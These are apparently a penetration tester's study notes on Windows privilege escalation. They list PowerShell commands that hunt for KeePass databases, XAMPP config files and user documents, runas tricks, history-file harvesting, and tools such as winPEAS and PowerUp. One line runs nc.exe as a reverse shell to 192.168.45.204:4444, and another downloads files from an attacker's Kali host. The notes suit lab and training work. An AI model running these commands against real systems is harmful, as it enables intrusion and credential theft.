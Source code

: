 
Searching for specific things:
- Command for finding ".kdbx" (KeePass) files:
	- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` (for Keepass db)
- Command for finding sensitive XAMPP info files:	
	- `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- Checking for files in home directory
	- `Get-ChildItem -Path C:\Users\$user\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`

Runas:
	- `runas user:$user cmd` 
		- will have to enter password after, but it gets a shell as that user
	- `C:\Windows\System32\runas.exe /user:$DOMAIN\$User /save cred "C:\Windows\System32\cmd.exe /c $Command`
	- `C:\Windows\System32\runas.exe /user:$DOMAIN\$User /save cred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\proof.txt > $outputlocation.txt`
	- With `InvokeRunasCs.ps1`:
		- `Import-Module .\Invoke-RunasCs.ps1`
		- `Invoke-RunasCs svc_mssql trustno1 'c:/xampp/htdocs/uploads/nc.exe 192.168.45.204 4444 -e cmd.exe'`
			- If this doesn't work, the issue may be the upload location of the `nc` binary. 
- `Get-History` - may not work
- `(Get-PSReadlineOption).HistorySavePath`
	- Then `cat` or `type` output file and check that output for interesting files
Download file from remote server
	- `iwr -uri http://$kaliIP/file.ext -outfile file.ext`

#### Checking privileges on service binaries
https://github.com/gtworek/Priv2Admin - which privileges can do what
  - `icacls` Windows utility or  
  - `Get-ACL` -  PowerShell Cmdlet

### Other Techniques
#### TCM list of Automated Tools
Executables:
- **winPEAS.exe** - windows privilege escalation awesome script (check hacktrick bc it has the checklist)
- Seabelt.exe - has to be compiled (sln files open in Visual Studio)
- Watson.exe - has to be compiled (sln file)
- **SharpUp.exe**

PowerShell
- Sherlock.ps1 (predecessor to Watson)
- **PowerUp.ps1**
- jaws-enum.ps1 (jaws = just another windows script)

Other
- windows-exploit-suggester.py (local from attack machine)
	- requires `systeminfo` output from the machine
	- seems to be mostly kernel exploits
- Exploit Suggester (Metasploit)
  